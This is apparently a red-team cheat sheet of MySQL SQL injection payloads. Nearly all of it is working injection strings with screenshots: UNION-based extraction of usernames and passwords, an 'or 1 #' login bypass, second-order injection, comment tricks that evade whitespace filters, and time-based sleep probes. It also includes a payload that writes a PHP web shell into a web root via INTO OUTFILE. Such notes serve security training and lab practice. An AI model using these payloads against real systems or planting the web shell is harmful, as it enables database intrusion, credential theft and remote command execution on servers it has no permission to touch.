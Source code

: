## Classic SQL Injection



### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
http://demo.ine.local/sqli_2.php?movie=99 UNION SELECT NULL, @@datadir, @@version, @@version, NULL, NULL, NULL&action=go
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-59-39.png)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-03-00.png)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```
